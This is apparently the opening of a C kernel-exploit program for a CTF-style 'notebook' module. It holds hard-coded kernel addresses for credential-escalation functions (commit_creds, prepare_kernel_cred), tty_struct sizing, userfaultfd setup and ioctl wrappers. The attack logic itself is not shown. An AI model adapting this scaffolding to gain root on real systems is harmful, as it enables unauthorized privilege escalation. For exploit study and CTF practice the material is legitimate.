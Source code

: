```c
#include "kernelpwn.h"

#define TTY_STRUCT_SIZE 0x2e0

#define PTM_UNIX98_OPS 0xffffffff81e8e440
#define PTY_UNIX98_OPS 0xffffffff81e8e320
#define COMMIT_CREDS 0xffffffff810a9b40
#define PREPARE_KERNEL_CRED 0xffffffff810a9ef0
#define WORK_FOR_CPU_FN 0xffffffff8109eb90

#define NOTE_NUM 0x10

struct Note {
    size_t idx;
    size_t size;
    char * buf;
};

struct KernelNotebook {
    void *ptr;
    size_t size;
};

int note_fd;
sem_t evil_add_sem, evil_edit_sem;
char *uffd_buf;
char temp_page[0x1000] = { "arttnba3" };

void noteAdd(size_t idx, size_t size, char * buf)
{
    struct Note note = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(note_fd, 0x100, &note);
}

void noteDel(size_t idx)
{
    struct Note note = {
        .idx = idx,
    };
    ioctl(note_fd, 0x200, &note);
}

void noteEdit(size_t idx, size_t size, char * buf)
{
    struct Note note = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(note_fd, 0x300, &note);
}

void noteGift(void *buf)
{
    struct Note note = {
        .buf = buf,
    };
    ioctl(note_fd, 100, &note);
}
```